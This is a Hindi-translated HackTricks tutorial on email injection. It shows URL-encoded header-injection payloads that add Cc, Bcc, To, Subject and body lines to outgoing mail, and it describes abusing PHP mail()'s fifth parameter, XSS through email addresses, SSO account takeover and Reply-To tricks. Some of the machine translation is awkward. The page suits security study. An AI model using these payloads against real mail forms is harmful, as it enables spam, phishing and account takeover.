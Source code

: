 # ईमेल इंजेक्शन

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=email-injections) का उपयोग करें और दुनिया के **सबसे उन्नत** समुदाय उपकरणों द्वारा संचालित **ऑटोमेट वर्कफ़्लो** आसानी से बनाएं।\
आज ही पहुंचें:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=email-injections" %}

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का **विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## भेजे गए ईमेल में इंजेक्ट करें

### भेजने वाले तर्क के बाद Cc और Bcc में इंजेक्ट करें
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
संदेश प्राप्तकर्ता और प्राप्तकर्ता1 खातों में भेजा जाएगा।

### तर्क इंजेक्शन
```
From:sender@domain.com%0ATo:attacker@domain.com
```
### विषय तर्क डालें
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
### संदेश के शरीर को बदलें

दो-लाइन फीड इंजेक्ट करें, फिर अपना संदेश लिखें ताकि संदेश के शरीर को बदल सकें।
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### PHP mail() फ़ंक्शन शोषण
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
}
```
#### 5वां पैरामीटर ($additional\_parameters)

यह खंड **इस पैरामीटर को कैसे दुरुपयोग करने के बारे में आधारित होगा यह मानक** करेगा कि एक हमलावार इसे नियंत्रित करता है।

यह पैरामीटर PHP द्वारा बाइनरी सेंडमेल को आमंत्रित करने के लिए उपयोग किया जाएगा। हालांकि, इसे फ़ंक्शन `escapeshellcmd($additional_parameters)` के साथ सैनिटाइज़ किया जाएगा।

इस मामले में एक हमलावार **सेंडमेल के लिए अतिरिक्त पैरामीटर डाल सकता है**।

#### /usr/sbin/sendmail के कार्यान्वयन में अंतर

**सेंडमेल** इंटरफेस **MTA ईमेल सॉफ़्टवेयर द्वारा प्रदान किया जाता है** (Sendmail, Postfix, Exim आदि) जो सिस्टम पर स्थापित है। हालांकि, **मुख्य कार्यक्षमता** (जैसे -t -i -f पैरामीटर) **संगति कारणों के लिए एक ही रहती है**, **अन्य कार्य और पैरामीटर** MTA स्थापित होने पर बहुत अधिक भिन्न होते हैं।

यहाँ कुछ उदाहरण हैं विभिन्न सेंडमेल कमांड/इंटरफेस के मैन पेज के:

* Sendmail MTA: http://www.sendmail.org/\~ca/email/man/sendmail.html
* Postfix MTA: http://www.postfix.org/mailq.1.html
* Exim MTA: https://linux.die.net/man/8/eximReferences

**सेंडमेल के मूल स्रोत के आधार पर** भिन्न विकल्पों का दुरुपयोग करने के लिए अनुशंसित किए गए हैं और **फ़ाइलें लीक करने या अर्बिट्रे कमांड्स को निषेधित करने** के लिए खोजे गए हैं। देखें कैसे [**https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html**](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)

## ईमेल नाम में इंजेक्शन

### ईमेल के अनदेखे हिस्से

चिह्न: **+, -** और **{}** अत्यधिक दुर्लभ स्थितियों में टैगिंग के लिए उपयोग किए जा सकते हैं और अधिकांश ईमेल सर्वर द्वारा नजरअंदाज किए जा सकते हैं

* उदा। john.doe+intigriti@example.com → john.doe@example.com

**आवश्यकता के बीच टिप्पणियाँ ()** शुरू या अंत में भी नजरअंदाज किए जाएंगे

* उदा। john.doe(intigriti)@example.com → john.doe@example.com

### सफेद सूची छलांग

<figure><img src="../.gitbook/assets/image (812).png" alt="https://www.youtube.com/watch?app=desktop&#x26;v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### उद्धरण

<figure><img src="../.gitbook/assets/image (626).png" alt="https://www.youtube.com/watch?app=desktop&#x26;v=4ZsTKvfP1g0"><figcaption></figcaption></figure>

### IPs

आप वर्गीकरण ब्रैकेट के बीच डोमेन के रूप में IPs का उपयोग भी कर सकते हैं:

* john.doe@\[127.0.0.1]
* john.doe@\[IPv6:2001:db8::1]

### अन्य सुरक्षा दोष

![https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](<../.gitbook/assets/image (1131).png>)

## तीसरे पक्ष का SSO

### XSS

कुछ सेवाएं जैसे **github** या **salesforce** आपको इसमें **XSS पेलोड्स के साथ ईमेल पता बनाने की अनुमति देती हैं**। यदि आप **इन प्रदाताओं का उपयोग करके अन्य सेवाओं में लॉगिन कर सकते हैं** और यह सेवाएं **ईमेल को सही ढंग से सैनिटाइज़ नहीं कर रही हैं**, तो आप **XSS** का कारण बन सकते हैं।

### खाता-अधिकार

यदि एक **SSO सेवा** आपको दिए गए ईमेल पते की पुष्टि किए बिना खाता बनाने की अनुमति देती है (जैसे **salesforce**) और फिर आप उस खाते का उपयोग किसी अलग सेवा में लॉगिन करने के लिए कर सकते हैं जो **salesforce** को विश्वस्त करती है, तो आप किसी भी खाते तक पहुंच सकते हैं।\
_ध्यान दें कि salesforce देता है कि दिया गया ईमेल पुष्टि किया गया था या नहीं, लेकिन ऐप्लिकेशन को इस जानकारी को ध्यान में रखना चाहिए।_

## जवाब-करने के लिए

आप _**From: company.com**_ और _**Replay-To: attacker.com**_ का उपयोग करके एक ईमेल भेज सकते हैं और यदि कोई **स्वचालित जवाब** भेजा जाता है क्योंकि ईमेल **आंतरिक पते** से भेजा गया था, तो **हमलावार** को उस **प्रतिक्रिया** को **प्राप्त** करने की संभावना हो सकती है।

## हार्ड बाउंस दर

कुछ सेवाएं, जैसे AWS, एक **हार्ड बाउंस दर** के रूप में एक सीमा लागू करती हैं, जो सामान्यत: 10% पर सेट की जाती है। यह एक महत्वपूर्ण मैट्रिक है, विशेष रूप से ईमेल वितरण सेवाओं के लिए। जब यह दर पार की जाती है, सेवा, जैसे AWS की ईमेल सेवा, आपकी ईमेल भेजने की क्षमताओं को निलंबित या ब्लॉक कर सकती है।

**हार्ड बाउंस** एक **ईमेल** को संदेशकर्ता के पास वापस भेज दिया गया है क्योंकि प्राप्तकर्ता का पता अमान्य या अस्तित्व नहीं है। इसके कई कारण हो सकते हैं, जैसे ईमेल को एक अस्तित्व वाले पते पर भेजा जाना, एक डोमेन जो असली नहीं है, या प्राप्तकर्ता सर्वर जो **ईमेल** स्वीकार करने से इनकार करता है।

AWS के संदर्भ में, यदि आप 1000 ईमेल भेजते हैं और उनमें से 100 हार्ड बाउंस के परिणामस्वरूप होते हैं (अमान्य पते या डोमेन जैसे कारणों से), तो यह एक 10% हार्ड बाउंस दर का मतलब होगा। इस दर को पहुंचना या पार करना AWS SES (सिम्पल ईमेल सेवा) को आपकी ईमेल भेजने की क्षमताओं को ब्लॉक या निलंबित कर सकता है।

एक निरंतर ईमेल सेवा सुनिश्चित करने और भेजने वाले के प्रतिष्ठान को बनाए रखने के लिए एक कम हार्ड बाउंस दर को बनाए रखना महत्वपूर्ण है। आपके मेलिंग सूची में ईमेल पतों की गुणवत्ता का मॉनिटरिंग और प्रबंधन इसे प्राप्त करने में मदद कर सकता है।

अधिक विस्तृत जानकारी के लिए, AWS की आधिकारिक दस्तावेज़ीकरण को देखा जा सकता है [AWS SES Bounce Handling](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/notification-contents.html#bounce-types).

## संदर्भ

* [https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)
* [https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)
* [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)
* [https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* प्राप्त करें [
